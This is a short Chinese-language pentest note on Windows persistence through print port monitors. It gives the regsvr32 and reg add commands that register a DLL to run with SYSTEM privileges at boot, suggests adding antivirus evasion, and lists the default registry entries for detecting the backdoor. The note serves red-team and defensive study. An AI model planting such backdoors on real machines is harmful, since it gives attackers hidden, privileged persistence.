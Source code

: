 
### 设置后门
测试dll可用: `regsvr32 /s /u poc.dll`, poc编译为dll,放到`C:\Windows\System32`目录下，然后设置注册表:

```
reg add "hklm\system\currentcontrolset\control\print\monitors\monitor" /v "Driver" /d "print.dll" /t REG_SZ
```
因为打印机是以`System`权限启动的，一般机器都是开机启动，这个是很不错的后门方式，在dll里面可以增加分离免杀或者更新dll的功能，这个dll可以设置多个，只要键名不一样即可。

### 排查后门

正常情况下打印机的注册表是下面这几个，位置:`\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\`

* Local Port
* Standard TCP/IP Port
* USB Monitor
* WSD Port

### 参考资料
* <https://wh0ale.github.io/2019/01/23/2019-1-23-%E5%90%8E%E6%B8%97%E9%80%8F%E8%AF%A6%E8%A7%A3/>
* <https://pentestlab.blog/2019/10/28/persistence-port-monitors/>
* <https://xz.aliyun.com/t/8095#toc-11>
* <https://attack.mitre.org/techniques/T1547/010/>
* <https://www.ired.team/offensive-security/persistence/t1013-addmonitor>